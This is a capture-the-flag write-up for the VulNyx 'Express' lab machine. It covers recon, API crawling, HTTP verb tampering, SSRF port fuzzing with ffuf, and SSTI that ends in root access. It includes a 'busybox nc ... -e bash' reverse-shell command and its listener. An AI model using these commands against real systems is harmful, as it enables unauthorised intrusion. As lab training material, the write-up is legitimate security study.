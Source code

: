 # CTF Penetration Testing

## Platform: VulNyx

### Machine: [Express](https://vulnyx.com/#express)

- Machine type: <img src="https://hackmyvm.eu/img/linux.png" alt="Linux" width="17"/> Linux
- Machine difficulty: 🟨 Medium

#### Skills Learned

- **Crawling**
- **HTTP Verb Tampering**
- **Server-Side Request Forgery (SSRF)**
- **Server-Side Template Injection (SSTI)**

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.131

192.168.247.131 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.131 -T5 

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.131\texpress.nyx' | sudo tee -a /etc/hosts

192.168.247.131 express.nyx

┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.131

http://192.168.247.131 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Title[Apache2 Debian Default Page: It works]

┌──(nabla㉿kali)-[~]
└─$ whatweb http://express.nyx

http://express.nyx [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[192.168.247.131], Script, Title[Express.nyx]
```

![Firefox - Homepage (http://192.168.247.131/)](./assets/screenshots/vulnyx_express_firefox_homepage_1.png)

![Firefox - Homepage (http://express.nyx/)](./assets/screenshots/vulnyx_express_firefox_homepage_2.png)

**Crawling**

![Firefox - JavaScript API 1](./assets/screenshots/vulnyx_express_firefox_javascript_api_1.png)

![Firefox - JavaScript API 2](./assets/screenshots/vulnyx_express_firefox_javascript_api_2.png)

```javascript
function getMusicList() {
  fetch('/api/music/list').then(response => response.json()).then(data => {
    console.log('Music genre list:', data);
  }).catch(
    error => {
      console.error('Error fetching the music list:', error);
    }
  );
}
function getMusicSongs() {
  fetch('/api/music/songs').then(response => response.json()).then(data => {
    console.log('List of songs:', data);
  }).catch(
    error => {
      console.error('Error fetching the list of songs:', error);
    }
  );
}
function getUsersWithKey() {
  fetch(`/api/users?key=${ secretKey }`).then(response => response.json()).then(data => {
    console.log('User list (with key):', data);
  }).catch(
    error => {
      console.error('Error fetching the user list:', error);
    }
  );
}
function checkUrlAvailability() {
  const data = {
    id: 1,
    url: 'http://example.com',
    token: '1234-1234-1234'
  };
  fetch(
    '/api/admin/availability',
    {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    }
  ).then(response => response.json()).then(data => {
    console.log('URL status:', data);
  }).catch(
    error => {
      console.error('Error checking the URL availability:', error);
    }
  );
}
```

![Burp Suite - API (GET /api/users)](./assets/screenshots/vulnyx_express_burpsuite_api_1.png)

![Burp Suite - API (GET /api/users?key=test)](./assets/screenshots/vulnyx_express_burpsuite_api_2.png)

**HTTP Verb Tampering**

![Burp Suite - API (POST /api/users?key=test)](./assets/screenshots/vulnyx_express_burpsuite_api_3.png)

**Server-Side Request Forgery (SSRF)**

![Burp Suite - API (POST /api/admin/availability) Test](./assets/screenshots/vulnyx_express_burpsuite_api_4.png)

![Burp Suite - API (POST /api/admin/availability) SSRF 1](./assets/screenshots/vulnyx_express_burpsuite_api_5.png)

```
┌──(nabla㉿kali)-[~]
└─$ seq 1 10000 > ports.txt

┌──(nabla㉿kali)-[~]
└─$ ffuf -w ./ports.txt -u http://express.nyx/api/admin/availability -X POST -H "Content-Type: application/json" -d '{"id":18, "url":"http://127.0.0.1:FUZZ", "token":"4493-3179-0912-0597"}' -fw 36 

[SNIP]

80                      [Status: 200, Size: 11240, Words: 3439, Lines: 7, Duration: 4750ms]
22                      [Status: 200, Size: 176, Words: 16, Lines: 7, Duration: 5038ms]
5000                    [Status: 200, Size: 301, Words: 39, Lines: 7, Duration: 241ms]
9000                    [Status: 200, Size: 280, Words: 50, Lines: 7, Duration: 175ms]
```

![Burp Suite - API (POST /api/admin/availability) SSRF 2](./assets/screenshots/vulnyx_express_burpsuite_api_6.png)

```html
<form method="get" action="/username">
	<input type="text" name="name" placeholder="Enter your name">
	<input type="submit" value="Greet">
</form>
```

![Burp Suite - API (POST /api/admin/availability) SSRF 3](./assets/screenshots/vulnyx_express_burpsuite_api_7.png)

**Server-Side Template Injection (SSTI)**

![Burp Suite - API (POST /api/admin/availability) SSTI 1](./assets/screenshots/vulnyx_express_burpsuite_api_8.png)

![Burp Suite - API (POST /api/admin/availability) SSTI 2](./assets/screenshots/vulnyx_express_burpsuite_api_9.png)

![Burp Suite - API (POST /api/admin/availability) SSTI 3](./assets/screenshots/vulnyx_express_burpsuite_api_10.png)

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

[CONTINUE]
```

```shell
busybox nc 192.168.247.128 1337 -e bash
```

![Burp Suite - API (POST /api/admin/availability) SSTI 4](./assets/screenshots/vulnyx_express_burpsuite_api_11.png)

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.131] 53990
```

```
whoami
root

ls -la /root
total 36
drwx------  5 root root 4096 Oct 22  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
lrwxrwxrwx  1 root root    9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 21  2024 .cache
drwxr-xr-x  3 root root 4096 Feb 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-r--------  1 root root   33 Oct 18  2024 r00t.txt
-rw-r--r--  1 root root   66 Oct 22  2024 .selected_editor
drwx------  2 root root 4096 Feb 12  2024 .ssh

cat /root/r00t.txt
17a0c*************************** 🚩

ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Oct 18  2024 .
drwxr-xr-x 18 root    root    4096 Feb 12  2024 ..
drwxr-xr-x  2 jesss   jesss   4096 Oct 22  2024 jesss
drwxr-xr-x  2 xerosec xerosec 4096 Oct 22  2024 xerosec

ls -la /home/jesss
total 24
drwxr-xr-x 2 jesss jesss 4096 Oct 22  2024 .
drwxr-xr-x 4 root  root  4096 Oct 18  2024 ..
lrwxrwxrwx 1 root  root     9 Oct 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 jesss jesss  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 jesss jesss 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 jesss jesss  807 Apr 23  2023 .profile
-r-------- 1 root  root    33 Oct 18  2024 user.txt

cat /home/jesss/user.txt
969da*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
